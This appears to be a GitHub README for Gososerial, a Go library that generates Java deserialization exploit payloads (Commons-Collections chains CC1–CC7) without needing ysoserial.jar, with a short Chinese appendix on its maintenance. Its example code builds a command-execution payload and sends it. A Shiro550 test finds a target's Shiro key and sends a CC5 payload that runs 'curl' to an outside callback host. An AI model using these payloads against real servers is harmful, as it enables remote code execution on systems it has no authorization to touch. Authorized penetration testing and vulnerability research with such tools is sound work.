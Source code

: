# Gososerial

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Quick Start

```shell
go get github.com/JimmyWA/Gososerial
```

```go
package main

import gososerial "github.com/JimmyWA/gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Shiro550 Scan Code

```go
......
func TestFindShiro(t *testing.T) {
	target := "http://a.b.c.d:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
}
......
```

## Reference

**4ra1n**: https://github.com/4ra1n

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n


## Appendix
这个仓库的起因是4ra1n师傅的gososerial年久失修(?)，于是在github找到了一个备份仓库，新建了一个自用，方便自己维护。该仓库目前只有CC1~CC7的利用链，在jboss环境中测试了CC5，其他还未测试。之后可能会根据需要继续添加其他利用链。